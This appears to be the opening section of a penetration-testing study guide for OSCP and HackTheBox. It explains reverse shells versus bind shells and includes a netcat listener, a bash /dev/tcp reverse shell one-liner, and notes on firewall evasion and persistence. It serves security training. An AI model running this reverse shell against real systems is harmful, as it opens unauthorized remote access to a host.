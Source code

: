 # Penetration Testing - Reverse Shells & Payload Generation Guide

**Category:** Penetration Testing - Phase 7  
**Tags:** oscp, htb, reverse-shells, payloads, msfvenom, shell-stabilization, persistence, evasion

## Reverse Shells & Payload Generation Methodology

**What this phase covers:** Comprehensive techniques for generating, delivering, and maintaining reverse shells across multiple platforms and scenarios. Includes payload creation, shell stabilization, persistence mechanisms, and evasion techniques.

**Why reverse shell mastery is critical:** Reverse shells are the primary method for maintaining access to compromised systems. HTB/OSCP scenarios heavily rely on reverse shell establishment and management. Proper shell handling often determines engagement success.

**HTB/OSCP Reverse Shell Approach:** Payload generation → Delivery mechanism → Shell establishment → Stabilization → Persistence → Evasion → Advanced techniques.

## Reverse Shell Fundamentals

### **Understanding Reverse Shell Concepts**

**What reverse shells are:** Network connections initiated from the target system back to the attacker's machine, bypassing firewall restrictions that typically block inbound connections.

**Why reverse shells are essential:** Most networks block inbound connections but allow outbound traffic. Reverse shells leverage this asymmetry to establish persistent access through egress-allowed protocols.

**Reverse shell vs. Bind shell:**
- **Reverse Shell:** Target connects back to attacker (bypasses firewalls)
- **Bind Shell:** Target listens, attacker connects (often blocked by firewalls)

```bash
# Basic reverse shell concepts demonstration

# Attacker machine (listener)
nc -lvp 4444                                 # Netcat listener on port 4444

# Target machine (reverse connection)
bash -i >& /dev/tcp/192.168.1.5/4444 0>&1   # Bash reverse shell

# Why reverse shells work:
# - Outbound connections typically allowed
# - Bypass NAT/firewall restrictions
# - Use legitimate protocols (HTTP, DNS, etc.)
# - Establish persistent command and control
# - Enable interactive system access

# Common reverse shell protocols and ports
# HTTP/HTTPS (80/443) - Often allowed through firewalls
# DNS (53) - Universal protocol, rarely blocked
# SSH (22) - Legitimate administrative protocol
# Custom high ports (1024+) - Less monitored

# Reverse shell workflow
# 1. Generate appropriate payload for target platform
# 2. Establish listener on attacker machine
# 3. Execute payload on target system
# 4. Receive incoming connection
# 5. Stabilize shell for interactive use
# 6. Establish persistence mechanisms
```
